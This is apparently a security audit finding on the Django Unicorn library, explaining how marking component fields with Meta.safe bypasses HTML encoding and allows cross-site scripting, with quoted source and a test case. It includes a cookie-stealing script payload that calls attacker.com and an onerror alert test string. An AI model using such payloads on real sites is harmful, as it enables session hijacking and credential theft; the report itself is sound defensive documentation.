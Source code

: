# VULNERABILITIES

## Cross-Site Scripting (XSS) through Meta.safe Component Attribute

### Description
Django Unicorn has a feature that allows developers to mark specific component fields as "safe" using the `Meta.safe` attribute, which bypasses HTML encoding protection. When a field is marked as safe, its content is rendered directly to the page without HTML encoding. If this field contains user-controlled data, it creates a Cross-Site Scripting vulnerability where attackers can inject malicious JavaScript that executes in users' browsers.

### Impact
This vulnerability allows attackers to execute arbitrary JavaScript in victims' browsers, potentially leading to session hijacking, credential theft, personal data exfiltration, and other client-side attacks. Since components often display data that might originate from user input or database records containing user-supplied content, this is a significant risk.

### Vulnerability Rank
High

### Currently Implemented Mitigations
Django Unicorn has implemented default HTML encoding for all component field values since version 0.36.0 (fixing CVE-2021-42053). This means developers must explicitly opt-in to disable this protection by using the `Meta.safe` attribute, rather than it being disabled by default.

### Missing Mitigations
- Strong warnings in documentation highlighting the security implications of using `Meta.safe`
- Runtime warnings when using `Meta.safe` with fields that contain user input
- Content Security Policy implementation guidelines
- A safer alternative to `Meta.safe` that allows HTML but sanitizes it more thoroughly

### Preconditions
1. A component field must be explicitly marked as safe using `Meta.safe`
2. The field must contain user-controlled content directly or indirectly
3. The component must be rendered in a browser context

### Source Code Analysis
In `utils.py`, the `sanitize_html` function uses Django's `mark_safe`:

```python
def sanitize_html(html: str) -> SafeText:
    """
    Escape all the HTML/XML special characters with their unicode escapes, so
    value is safe to be output in JSON.
    """
    html = html.translate(_json_script_escapes)
    return mark_safe(html)  # noqa: S308
```

The `noqa: S308` comment suggests this was flagged by a static analyzer as potentially unsafe but the warning was suppressed.

In the provided code in `django_unicorn/views/__init__.py`, we can see how the `safe` fields are processed:

```python
# Get set of attributes that should be marked as `safe`
safe_fields = []
if hasattr(component, "Meta") and hasattr(component.Meta, "safe"):
    if isinstance(component.Meta.safe, Sequence):
        for field_name in component.Meta.safe:
            if field_name in component._attributes().keys():
                safe_fields.append(field_name)

# Mark safe attributes as such before rendering
for field_name in safe_fields:
    value = getattr(component, field_name)
    if isinstance(value, str):
        setattr(component, field_name, mark_safe(value))  # noqa: S308
```

The code allows developers to mark certain fields as "safe" through the Meta class, and for these fields, Django's HTML encoding is bypassed, which can lead to XSS if those fields contain user input.

In the changelog, there's evidence this was a security vulnerability fixed in v0.36.0:

```markdown
## v0.36.0

- Security fix: for CVE-2021-42053 to prevent XSS attacks (reported by [Jeffallan](https://github.com/Jeffallan)).

**Breaking changes**

- responses will be HTML encoded going forward (to explicitly opt-in to previous behavior use [safe](views.md#safe))
```

The exploitation path works as follows:
1. A developer creates a component with a field that contains user input
2. The developer marks this field as "safe" in the Meta class
3. A malicious user inputs JavaScript code like `<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>`
4. When the component renders, this code executes in the browser of any user viewing the component

### Security Test Case
1. Create a new Django project with Django Unicorn installed
2. Create a component with a view that includes user-controlled data and marks it as safe:

```python
from django_unicorn.components import UnicornView

class VulnerableComponentView(UnicornView):
    user_content = ""

    class Meta:
        safe = ("user_content",)

    def mount(self):
        # In a real scenario, this might come from a database or user input
        self.user_content = "<img src=x onerror='alert(document.cookie)'>"
```

3. Create the corresponding template:

```html
<div>
  <h3>User Content:</h3>
  {{ user_content }}

  <input unicorn:model="user_content" type="text" placeholder="Enter some content" />
  <button unicorn:click="$refresh">Update Content</button>
</div>
```

4. Access the component through a browser
5. Observe that the JavaScript executes, displaying the cookies in an alert box
6. To confirm it's the `Meta.safe` causing the issue, remove the field from the safe tuple and verify the script is rendered as text instead of being executed

This vulnerability exists because developers have the option to bypass HTML encoding protections, which if misused with user-controlled data, leads to XSS attacks.
